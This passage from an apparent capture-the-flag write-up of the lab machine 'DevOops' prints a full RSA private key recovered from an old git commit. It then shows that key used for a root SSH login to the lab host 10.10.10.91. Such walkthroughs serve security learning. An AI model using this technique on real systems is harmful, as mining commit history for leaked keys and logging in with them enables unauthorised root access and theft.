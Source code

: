 Now the `authcredentials.key` is changed to old commit.

```bash
roosa@devoops:~/work/blogfeed$ cat resources/integration/authcredentials.key
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
nz1y2vdO3ug94XX8y0bbMR9Mtpj292wNrxmUSQ5glioqrSrwFfevWt/rEgIVmrb+
CCjeERnxMwaZNFP0SYoiC5HweyXD6ZLgFO4uOVuImILGJyyQJ8u5BI2mc/SHSE0c
F9DmYwbVqRcurk3yAS+jEbXgObupXkDHgIoMCwIDAQABAoIBAFaUuHIKVT+UK2oH
uzjPbIdyEkDc3PAYP+E/jdqy2eFdofJKDocOf9BDhxKlmO968PxoBe25jjjt0AAL
gCfN5I+xZGH19V4HPMCrK6PzskYII3/i4K7FEHMn8ZgDZpj7U69Iz2l9xa4lyzeD
k2X0256DbRv/ZYaWPhX+fGw3dCMWkRs6MoBNVS4wAMmOCiFl3hzHlgIemLMm6QSy
NnTtLPXwkS84KMfZGbnolAiZbHAqhe5cRfV2CVw2U8GaIS3fqV3ioD0qqQjIIPNM
HSRik2J/7Y7OuBRQN+auzFKV7QeLFeROJsLhLaPhstY5QQReQr9oIuTAs9c+oCLa
2fXe3kkCgYEA367aoOTisun9UJ7ObgNZTDPeaXajhWrZbxlSsOeOBp5CK/oLc0RB
GLEKU6HtUuKFvlXdJ22S4/rQb0RiDcU/wOiDzmlCTQJrnLgqzBwNXp+MH6Av9WHG
jwrjv/loHYF0vXUHHRVJmcXzsftZk2aJ29TXud5UMqHovyieb3mZ0pcCgYEAxR41
IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
iD6fE+5/i/rYHs2Gfz5NlY39ecN5ixbAcM2tDrUo/PcFlfXQhrERxRXJQKPHdJP7
VRFHfKaKuof+bEoEtgATuwKBgC3Ce3bnWEBJuvIjmt6u7EFKj8CgwfPRbxp/INRX
S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----


roosa@devoops:~/work/blogfeed$ md5sum resources/integration/authcredentials.key
d880df0f57e4143a0fcb46fdd76e270b  resources/integration/authcredentials.key
```

Then, I recovered it the recent commit.

```bash
roosa@devoops:~/work/blogfeed$ git reset --hard 7ff507d
HEAD is now at 7ff507d Use Base64 for pickle feed loading


roosa@devoops:~/work/blogfeed$ md5sum resources/integration/authcredentials.key
f57f7e28835e631c37ad0d090ef3b6fd  resources/integration/authcredentials.key
```

Using the RSA key, I tested ssh login with several usernames.
And luckily, it worked with `root`.

```bash
┌──(kali㉿kali)-[~/htb/devoops]
└─$ ssh -i unknown2.priv root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Fri Sep 23 09:46:30 2022
root@devoops:~# whoami
root
root@devoops:~# id
```